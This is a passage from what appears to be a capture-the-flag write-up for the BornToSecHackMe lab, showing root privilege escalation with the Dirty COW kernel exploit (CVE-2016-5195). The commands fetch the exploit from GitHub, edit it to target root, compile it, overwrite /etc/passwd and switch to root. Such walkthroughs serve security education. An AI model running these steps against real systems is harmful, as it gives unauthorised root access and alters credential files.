 All previous steps are identical to those in solution 1, so we will start this solution from step 7.

## 7. Exploring the Target

After gaining initial access to the system, we check the system information using the `uname` command to learn more about the target environment.

```bash
www-data@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

The output reveals that the system is running on a 32-bit version of Ubuntu with kernel version `3.2.0-91`. A quick Google search shows that this kernel version is vulnerable to a well-known **Local Privilege Escalation** exploit known as **[CVE-2016-5195](https://nvd.nist.gov/vuln/detail/cve-2016-5195)** (Dirty COW). This vulnerability affects Linux kernel versions from `2.x` to `4.x` before `4.8.3` and allows an unprivileged user to gain root privileges by exploiting a race condition.

## 8. Exploiting Dirty COW

To exploit this vulnerability, we will use an existing exploit written in C, which we can download and modify to escalate privileges.

```bash
www-data@BornToSecHackMe:~$ curl -O https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
```

We downloaded the Dirty COW exploit from GitHub. Since the code references the username "firefart," we will replace all instances of "firefart" with "root" to modify the root account.

```bash
www-data@BornToSecHackMe:~$ sed -i 's/firefart/root/g' dirty.c
```

Next, we compile the C code using `gcc`:

```bash
www-data@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
```

We then run the exploit with a password of our choice (in this case, `"password"`):

```bash
www-data@BornToSecHackMe:~$ ./dirty password
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password
Complete line:
root:rox7Jdqy.byUU:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'password'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

The exploit successfully modifies the `/etc/passwd` file, adding a new root user with the password `"password"`. Now we can switch to the root user:

```bash
www-data@BornToSecHackMe:~$ su -
Password:
root@BornToSecHackMe:~#
```